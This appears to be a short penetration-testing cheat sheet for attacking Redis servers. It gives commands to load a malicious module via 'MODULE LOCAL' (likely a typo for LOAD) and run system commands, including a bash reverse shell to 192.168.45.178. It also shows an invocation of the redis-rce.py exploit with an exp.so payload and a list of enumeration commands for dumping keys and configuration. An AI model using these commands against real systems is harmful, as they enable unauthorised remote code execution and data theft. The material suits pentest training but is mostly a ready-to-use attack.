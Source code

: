 ### Redis

```bash

cd RedisModules-ExecuteCommand
make

# Transfer file onto system through ftp
redis-cli -h $ip
MODULE LOCAL /var/ftp/pub/module.so
system.exec "id"
system.exec "bash -i >& /dev/tcp/192.168.45.178/80 0>&1"
```

```bash
# https://github.com/jas502n/Redis-RCE
python redis-rce.py -r $ip -p 6379 -L 192.168.45.178 -P 80 --file ./exp.so
```

```bash
info
AUTH <username> <password>
client list
CONFIG GET *
INFO keyspace # get databases
KEYS * 
GET <KEY>
```

"https://web.archive.org/web/20191201022931/http://reverse-tcp.xyz/pentest/database/2017/02/09/Redis-Hacking-Tips.html"